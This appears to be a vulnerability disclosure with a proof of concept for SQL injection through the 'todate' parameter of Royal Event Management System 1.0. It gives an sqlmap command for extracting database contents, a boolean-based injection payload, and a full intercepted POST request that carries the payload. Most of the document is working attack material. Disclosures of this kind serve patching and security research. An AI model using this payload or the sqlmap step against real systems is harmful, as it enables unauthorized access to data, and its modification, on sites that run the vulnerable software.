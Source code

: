 # Royal Event Management System - 'todate' SQL Injection (Authenticated)


1. Description:
----------------------

Royal Event Management System 1.0 allows SQL Injection via parameter 'todate' in
/royal_event/btndates_report.php#?=  Exploiting this issue could allow an attacker to compromise
the application, access or modify data, or exploit latent vulnerabilities
in the underlying database.


2. Proof of Concept:
----------------------

In Burpsuite intercept the request from the affected page with
'todate' parameter and save it like poc.txt. Then run SQLmap to extract the
data from the database:

sqlmap -r poc.txt --dbms=mysql


3. Example payload:
----------------------

(boolean-based)

-1%27+OR+1%3d1+OR+%27ns%27%3d%27ns 

4. Burpsuite request:
----------------------

POST /royal_event/btndates_report.php#?= HTTP/1.1<br>
Host: localhost<br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8<br>
Accept-Encoding: gzip, deflate<br>
Accept-Language: en-us,en;q=0.5<br>
Cache-Control: no-cache<br>
Content-Length: 334<br>
Content-Type: multipart/form-data; boundary=f289a6438bcc45179bcd3eb7ddc555d0<br>
Cookie: PHPSESSID=qeoe141g7guakhacf152a3i380<br>
Referer: http://localhost/royal_event/btndates_report.php#?=<br>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.0 Safari/537.36<br>
<br>
--f289a6438bcc45179bcd3eb7ddc555d0<br>
Content-Disposition: form-data; name="todate"<br>
<br>
-1' OR 1=1 OR 'ns'='ns<br>
--f289a6438bcc45179bcd3eb7ddc555d0<br>
Content-Disposition: form-data; name="search"<br>
<br>
3
--f289a6438bcc45179bcd3eb7ddc555d0<br>
Content-Disposition: form-data; name="fromdate"<br>
<br>
01/01/2011<br>
--f289a6438bcc45179bcd3eb7ddc555d0--<br>
